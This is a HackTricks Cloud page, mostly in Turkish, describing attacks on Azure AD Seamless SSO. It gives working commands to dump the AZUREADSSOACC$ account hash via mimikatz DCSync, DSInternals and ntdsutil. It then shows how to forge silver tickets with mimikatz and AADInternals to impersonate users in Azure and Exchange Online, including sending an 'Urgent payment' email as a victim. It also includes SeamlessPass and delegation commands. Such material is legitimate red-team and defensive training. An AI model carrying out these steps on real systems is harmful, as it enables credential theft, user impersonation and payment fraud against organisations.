 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO), **kullanıcıları kurumsal ağınıza bağlı kurumsal cihazlarında otomatik olarak oturum açtırır**. Etkinleştirildiğinde, **kullanıcıların Azure AD'ye oturum açmak için şifrelerini girmeleri gerekmez** ve genellikle kullanıcı adlarını bile girmeleri gerekmez. Bu özellik, kullanıcılarınıza ek bir yerel bileşen gerektirmeden bulut tabanlı uygulamalarınıza kolay erişim sağlar.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Temelde Azure AD Seamless SSO, kullanıcıları **yerel bir alan bağlı PC'de** olduklarında **oturum açtırır**.

Bu, hem [**PHS (Şifre Hash Senkronizasyonu)**](phs-password-hash-sync.md) hem de [**PTA (Geçiş Kimlik Doğrulaması)**](pta-pass-through-authentication.md) tarafından desteklenmektedir.

Masaüstü SSO, kimlik doğrulama için **Kerberos** kullanmaktadır. Yapılandırıldığında, Azure AD Connect, yerel AD'de **AZUREADSSOACC`$` adında bir bilgisayar hesabı** oluşturur. `AZUREADSSOACC$` hesabının şifresi, yapılandırma sırasında **düz metin olarak Azure AD'ye gönderilir**.

**Kerberos biletleri**, şifrenin **NTHash (MD4)** kullanılarak **şifrelenir** ve Azure AD, gönderilen şifreyi biletleri şifrelerini çözmek için kullanır.

**Azure AD**, Kerberos **biletlerini** kabul eden bir **uç nokta** (https://autologon.microsoftazuread-sso.com) sunar. Alan bağlı makinenin tarayıcısı, SSO için bu uç noktaya biletleri iletir.

### Yerel -> bulut

Kullanıcının **`AZUREADSSOACC$`** şifresi **asla değişmez**. Bu nedenle, bir alan yöneticisi bu hesabın **hash'ini ele geçirebilir** ve ardından **herhangi bir yerel kullanıcı ile Azure'a bağlanmak için gümüş biletler** oluşturmak için kullanabilir:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Hash ile artık **gümüş biletler** oluşturabilirsiniz:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Tarayıcıyı Başlatın:** Mozilla Firefox başlatılmalıdır.
2. **Tarayıcıyı Yapılandırın:**
* **`about:config`** sayfasına gidin.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) için tercihi belirtilen [değerlere](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) ayarlayın:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Web Uygulamasına Erişim:**
* Kuruluşun AAD alanı ile entegre bir web uygulamasını ziyaret edin. Yaygın bir örnek [Office 365](https://portal.office.com/)’dir.
4. **Kimlik Doğrulama Süreci:**
* Giriş ekranında, kullanıcı adı girilmeli ve şifre alanı boş bırakılmalıdır.
* Devam etmek için TAB veya ENTER tuşuna basın.

{% hint style="success" %}
Bu, MFA etkinse atlatmaz
{% endhint %}

#### Dcsync olmadan Seçenek 2 - SeamlessPass

Bu saldırıyı **dcsync saldırısı olmadan** daha gizli bir şekilde gerçekleştirmek de mümkündür, [bu blog yazısında açıklandığı gibi](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Bunun için yalnızca aşağıdakilerden birine ihtiyacınız var:

* **Bir tehlikeye atılmış kullanıcının TGT'si:** Eğer bir tane yoksa ama kullanıcı tehlikeye atıldıysa, birçok araçta uygulanan sahte TGT delegasyonu hilesi kullanılarak bir tane elde edilebilir, örneğin [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) ve [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: KRBTGT anahtarına sahipseniz, saldırıya uğrayan kullanıcı için gerekli TGT'yi oluşturabilirsiniz.
* **Bir tehlikeye atılmış kullanıcının NTLM hash'i veya AES anahtarı:** SeamlessPass, TGT'yi oluşturmak için bu bilgi ile etki alanı denetleyicisi ile iletişim kuracaktır.
* **AZUREADSSOACC$ hesabı NTLM hash'i veya AES anahtarı:** Bu bilgi ve saldırı yapılacak kullanıcının Güvenlik Tanımlayıcısı (SID) ile birlikte, bir hizmet bileti oluşturmak ve bulut ile kimlik doğrulamak mümkündür (önceki yöntemde olduğu gibi).

Son olarak, TGT ile [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) aracını kullanmak mümkündür:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Seamless SSO ile Firefox'u çalıştırmak için daha fazla bilgi [**bu blog yazısında**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) bulunabilir.

#### ~~Bulut yalnızca kullanıcılar için Kerberos biletleri oluşturma~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Eğer Active Directory yöneticileri Azure AD Connect'e erişime sahipse, **herhangi bir bulut kullanıcısı için SID ayarlayabilirler**. Bu şekilde Kerberos **biletleri** **bulut yalnızca kullanıcılar için de oluşturulabilir**. Tek gereklilik, SID'nin uygun bir [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) olmasıdır.

{% hint style="danger" %}
Bulut yalnızca yönetici kullanıcıların SID'sini değiştirmek artık **Microsoft tarafından engellenmiştir**.\
Bilgi için [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) kontrol edin.
{% endhint %}

### On-prem -> Bulut, Kaynak Tabanlı Kısıtlı Delegasyon ile <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Bu hesabın bulunduğu konteyner veya OU'daki bilgisayar hesaplarını yönetebilen herkes, **hesap üzerinde kaynak tabanlı kısıtlı delegasyonu yapılandırabilir ve ona erişebilir**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Bulutundayım, herkesin e-postalarını okuyorum - Active Directory aracılığıyla Azure AD'yi hacklemek](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

